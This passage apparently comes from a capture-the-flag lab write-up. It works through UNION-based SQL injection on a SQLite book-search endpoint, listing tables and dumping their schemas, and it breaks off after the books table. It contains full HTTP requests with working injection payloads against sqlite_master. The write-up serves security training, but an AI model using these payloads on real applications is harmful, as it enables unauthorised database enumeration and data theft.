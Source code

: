 ```http
```

The underlying database is SQLite 3.22.0. Determine the number of non-SQLite system tables.

```http
GET /challenge6/book?title=%')+UNION+SELECT+1,'a',name,'c'+FROM+sqlite_master+WHERE+type='table'+AND+name+NOT+LIKE+'sqlite_%'-- HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```

Three tables were returned: `books`, `notes`, and `users`. Determine each the tables' schemas by dumping each of their `CREATE TABLE` statements.

```http
GET /challenge6/book?title=%')+UNION+SELECT+1,'a',sql,'c'+FROM+sqlite_master+WHERE+type='table'+AND+name+NOT+LIKE+'sqlite_%'-- HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```

#### `books`

```sql
CREATE TABLE books (
    id integer primary key,
    title text not null,
    description text not null,
    author text not null
)
```

#### `notes`
